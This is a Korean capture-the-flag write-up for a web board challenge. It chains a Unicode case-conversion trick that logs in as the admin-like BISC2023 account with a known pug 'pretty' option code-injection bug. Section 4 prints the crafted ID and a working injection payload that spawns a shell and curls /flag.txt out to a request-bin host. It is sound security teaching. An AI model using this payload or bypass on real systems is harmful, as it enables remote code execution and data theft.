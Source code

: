 <h1>1. 웹페이지 접속</h1>

![image](./image/biscboard1.png)


 

웹페이지에 접속 시 바로 login plz 라는 알림이 출력되며 로그인 페이지로 이동한다.

![image](./image/biscboard2.png)

 
  

Register 버튼을 클릭하여 계정 생성 페이지로 이동했을 때 로그인 페이지와 동일한 폼이 존재하며 아이디와 비밀번호를 입력하고 Register 버튼 클릭 시 계정 생성이 가능할 것으로 보여 ID : test, PW : test 로 계정을 생성하였다.

![image](./image/biscboard3.png)
 
 

 

그리고 생성한 ID 와 PW를 입력하여 로그인을 시도하였는데 로그인이 되지 않았다.


![image](./image/biscboard4.png)
 

웹페이지에서는 올바른 계정을 입력하였음에도 로그인이 되지 않는 이유를 알 수 없어 주어진 소스코드를 분석해보았다.

 

<h1>2. 소스코드 분석</h1>
 

<h2>2.1. /login</h2>
 
![image](./image/biscboard5.png)
 

먼저 로그인 페이지의 소스코드를 분석하였다. request를 통해 전달받은 값을 id, pw 변수에 저장한다. 그리고 id 변수에 저장된 값을 소문자로 치환하여 'bisc2023' 문자열과 비교하고 일치하면 'u r not admin' 알림을 출력하며 로그인 페이지로 리다이렉트시킨다.

 

그리고 id 파라미터로 전달받은 값이 'bisc2023' 이 아니라면 id 변수에 저장된 값을 대문자로 치환하여 accounts 변수에 저장된 값과 비교하게 되는데 id 변수에 저장된 값이 accounts 에 존재하고, accounts[id] 가 pw 변수에 저장된 값과 일치한다면 now 변수에 id 변수의 값을 담고 메인 페이지를 반환한다. accounts는 계정과 비밀번호를 가지고 있는 변수이다.

 

웹페이지 접속 (1)
소스코드 분석 (2)
 

여기에서 방금 계정을 생성하여도 로그인이 되지 않았던 이유를 알 수 있는데 바로 line 27에 있는 코드 때문이다. request 를 통해 입력받은 id 값이 'bisc2023' 이 아니라면 id 값을 대문자로 치환한 후 검증하는 과정을 거치게 되는데 가입 시에 ID : test, PW : test 로 가입하였지만 로그인 시에 ID : test 를 입력하면 TEST 로 치환한 후 accounts 변수에 담긴 계정 정보와 비교하게 되기 때문에 서로 일치하지 않아 로그인이 되지 않았던 것이다.

 

2.2. /edit
 

다음으로 주목했던 부분은 /edit 엔드포인트이다. 그 이유는 이곳에서만 유일하게 계정을 검증하는 로직이 존재하였기 때문이다.

 

웹페이지 접속 (1)
소스코드 분석 (3)
 

소스코드를 보면 line 93 ~ 95 까지의 코드에서 now 변수의 값을 검증하는 것을 알 수 있다. now 변수에 담기는 값은 위의 /login 소스코드에서 알 수 있는데 로그인에 성공하였을 때 id 변수의 값을 now 변수에 담는다. (/login 소스코드 line 29)

 

다른 엔드포인트에서는 특이한 부분을 발견하지 못하였으나 /edit 소스코드에서 사용자를 검증하여 해당 엔드포인트에 접근 하는 계정이 'BISC2023' 이 아니라면 pretty 변수를 false로 초기화하는 부분이 존재하였다. 해당 엔드포인트에서만 사용자를 검증하는 점, 그리고 'BISC2023' 계정이 아니라면 pretty 변수를 false 로 초기화 하는 것을 보고 해당 기능에 취약점이 있는지 검색한 결과 다음과 같은 글을 발견할 수 있었다.

 

https://github.com/pugjs/pug/issues/3312

 
Code injection vulnerability in visitMixin and visitMixinBlock through "pretty" option · Issue #3312 · pugjs/pug

Hello, I found that pug may allow an attacker to inject arbitrary javascript code if an attacker can control options.pretty. Pug Version: 3.0.0 Proof of concept Here is an vulnerable example includ...

github.com
 

 

해당 웹페이지는 pug 언어로 작성되어있으며 위 글은 pug에서 발견된 취약점에 대한 글이다. 간단하게 설명하면 pug로 웹페이지를 작성할 때 사용되는 pretty 변수에서 발견된 취약점에 대한 글이며 이 변수에 특정 구문을 삽입하면 삽입된 코드가 실행되는 취약점이라는 내용이다.

 

/edit 엔드포인트의 소스코드 중 line 92를 보면 로그인한 상태에서 pretty 변수에 request 값을 입력받지만 now 변수의 값이 'BISC2023' 이 아니라면 pretty 변수에 false를 저장하게 되므로 해당 취약점은 동작하지 않는다. 따라서 다음과 같은 공격 시나리오를 계획하였다.

 

3. 공격 시나리오
 

1)  BISC2023 계정으로 로그인한다.

 

2) /edit 페이지로 이동하여 pretty 파라미터를 통해 구문을 삽입하여 코드를 실행시켜 flag를 획득한다.

 

 

4. 공격 과정
먼저 BISC2023 계정으로 로그인해야 한다. 그러기 위해 다음의 방법을 사용하였다.

 

https://blog.rubiya.kr/index.php/2018/11/29/strtoupper/

 
strtoupper() – blog.rubiya.kr

해당 문서는 위의 트윗을 보고 추가적인 연구를 진행해 Theori 내부 세미나에서 발표한 결과물이다.(사장님 허락받고 올린다) (%C4%B1) 는 LATIN SMALL LETTER DOTLESS I를, (%E2%84%AA) KELVIN SIGN을, (%C5%BF) 는 LATI

blog.rubiya.kr
 

위의 글의 내용 중 다음과 같은 내용이 있다.

 

자바스크립트 환경에서 %C4%B1를 touppercase() 하면 == “I”가, %c5%bf를 touppercase()하면 == “S”가 된다라는 내용이 있는데 이 웹페이지에서는 로그인 시 id 값을 받고 소문자로 치환한 값이 bisc2023 이 아니라면 id 값을 대문자로 치환하는 toUpperCase() 함수를 사용한다. 따라서 다음의 id와 pw로 가입한 후 로그인을 시도하였다.

 


ID : B%C4%B1%c5%bfC2023
PW : TeamH4C
 

 

이 id와 pw로 가입 후 로그인하면 toLowerCase() 함수로 id 변수의 값을 치환하여도 bisc2023이 아니므로 이 id 값에 대해 toUpperCase() 함수를 실행하게 될 것이며 그러면 ID는 BISC2023이 되어 로그인 검증 과정을 우회하고 해당 계정으로 로그인할 수 있게 된다.

 

먼저 계정을 생성하였다.

 

웹페이지 접속 (1)
공격 과정 (1)
 

 

이후 생성한 계정으로 로그인을 시도하였고, BISC2023 계정으로 로그인에 성공하였다.

 

웹페이지 접속 (1)
공격 과정 (2)
 

 

웹페이지 접속 (1)
공격 과정 (3)
 

 

다음은 /edit 페이지에 접근하여 코드를 주입한다. /edit 페이지는 게시글을 수정하는 페이지이므로 먼저 게시글을 작성 후 /edit 페이지에 접근하였다.

 

/edit 페이지에서 다음의 구문을 삽입한다.

 


// curl 다음에 입력된 주소는 Request Bin 주소이며 사람에 따라 이 주소는 다를 수 있음.
');process.mainModule.constructor._load('child_process').exec('curl https://eodnnmy.request.dreamhack.games/$(cat /flag.txt)');_=('
 

웹페이지 접속 (1)
공격 과정 (4)
 

 

그리고 수정된 게시글에 접근하여 링크를 클릭하였을 때 코드가 실행되어 flag를 획득하였다.

 

웹페이지 접속 (1)
공격 과정 (5)
 

 

 

웹페이지 접속 (1)
공격 과정 (6)
 

 

5. Reference
 

- https://blog.rubiya.kr/index.php/2018/11/29/strtoupper/

 

- https://github.com/pugjs/pug/issues/3312
